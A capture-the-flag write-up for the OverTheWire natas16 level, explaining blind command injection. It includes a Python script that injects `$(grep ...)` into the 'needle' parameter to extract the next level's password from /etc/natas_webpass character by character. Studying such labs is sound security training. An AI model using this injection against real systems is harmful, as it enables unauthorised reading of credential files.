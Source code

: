 # natas16

Here it is similar to natas10, but more characters are restricted. If you try anything normal, it won't work. Well one more trick up our sleeves it, like natas15, check if each character comes in natas17's password or not, using `grep`. This will work since if the char is not, then it will output the dictionary list, else it will output nothing. And we are looking for the case nothing is outputted. 
<br>
This is again a brute force. This is called BLIND COMMAND INJECTION. The code which will work is-

```python
import requests
import string

url = 'http://natas16.natas.labs.overthewire.org/'
auth = ('natas16', '<password>')  # replace <password> with the actual password
characters = string.ascii_letters + string.digits
known_password = ''

session = requests.Session()
session.auth = auth

for _ in range(32):  # assuming the password is 32 characters long
	for char in characters:
		command = f'$(grep ^{known_password}{char} /etc/natas_webpass/natas17)'
		response = session.get(url, params={'needle': command}) 
		if 'April' not in response.text:  # 'April' is a word that appears in the normal output
			known_password += char
			print(known_password)
			break

print(known_password)
```
This will output the password and we are done!